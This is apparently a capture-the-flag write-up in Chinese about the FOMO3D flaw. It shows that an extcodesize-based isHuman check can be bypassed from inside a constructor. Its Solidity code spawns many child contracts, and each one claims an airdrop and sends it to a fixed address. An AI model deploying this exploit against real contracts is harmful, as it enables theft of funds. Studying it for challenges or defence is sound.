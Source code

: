 经典的FOMO3D漏洞。

这里检测 isHuman的机制可以被绕过！

> **当一个合约在执行构造函数的时候，其extcodesize也为0**!



只要绕过这个检测，就是写脚本薅羊毛的game了。

所以我们把攻击实现写在一个构造函数内

参考：

```solidity
contract father {
    function father() payable {}
    Son son;
    function attack(uint256 times) public {
        for(uint i=0;i<times;i++){
            son = new Son();
        }
    }
    function () payable {
    }
}
contract Son {
    function Son() payable {
        Fake3D f3d;
        f3d=Fake3D(0x4082cC8839242Ff5ee9c67f6D05C4e497f63361a);
        f3d.airDrop();
        if (f3d.balance(this)>=10)
        {
            f3d.transfer(0x357ec8b9f62e8a3ca819eebd49a793045b8b1e91,10);
        }
        selfdestruct(0x357ec8b9f62e8a3ca819eebd49a793045b8b1e91);
    }
    function () payable{
    }
}
```

